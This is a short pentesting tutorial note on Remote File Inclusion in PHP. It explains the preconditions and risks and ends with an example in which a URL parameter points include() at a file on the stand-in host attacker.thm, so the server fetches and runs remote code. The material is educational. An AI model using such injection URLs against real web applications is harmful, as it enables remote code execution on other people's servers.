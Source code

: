 ```yaml
---
title: Remote File Inclusion
---
```


_Remote File Inclusion_ is a technique to include remote files and into a vulnerable application. Like [Local File Inclusion](/knowledge/OffSec/pentesting/LFI.md), the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function.

One requirement for RFI is that the `allow_url_fopen` option needs to be on.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain [Remote Command Execution (RCE)](/<Remote%20Command%20Execution%20(RCE)>) on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-site Scripting ([XSS](/knowledge/OffSec/pentesting/XSS.md))
- Denial of Service ([DoS](/DoS))

An external server hosting malicious files must communicate with the application server for a successful RFI attack. The malicious file is injected into the `include` fn via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

## Example

Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt` where cmd.txt contains PHP code:

```php
<?php echo "Hello World"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as

```
http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt
```

If there is no input validation, then the malicious URL passes into `include`. Next, the web app server will send a `GET` request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker.
